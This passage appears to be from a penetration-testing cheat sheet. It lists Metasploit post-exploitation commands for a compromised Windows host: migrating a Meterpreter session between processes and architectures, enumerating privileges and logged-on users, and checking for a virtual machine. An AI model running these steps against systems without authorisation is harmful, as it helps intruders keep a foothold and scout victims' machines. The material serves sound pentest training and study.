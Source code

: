 ```bash
search migrate
use post/windows/manage/migrate
info
# Description:
#   This module will migrate a Meterpreter session from one process to 
#   another. A given process PID to migrate to or the module can spawn 
#   one and migrate to that newly spawned process.
set SESSION 1
run

# It will not migrate if it's already a x64 process  
```

- Migration e.g. from x86 service

```bash
use post/windows/manage/archmigrate
set SESSION 1
run
```

![Metasploit - post/windows/manage/archmigrate](.gitbook/assets/image-20230419192913558.png)

- Enumerate current user privileges

```bash
search win_privs
use post/windows/gather/win_privs
set SESSION 1
run
```

![Metasploit - post/windows/gather/win_privs](.gitbook/assets/image-20230419190226958.png)

- Check current and recently logged on users

```bash
search enum_logged_on
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_logged_on_users](.gitbook/assets/image-20230419190413332.png)

- Determine if the system is a VM

```bash
search checkvm
use post/windows/gather/checkvm
set SESSION 1
run
```

![Metasploit - post/windows/gather/checkvm](.gitbook/assets/image-20230419190604843.png)
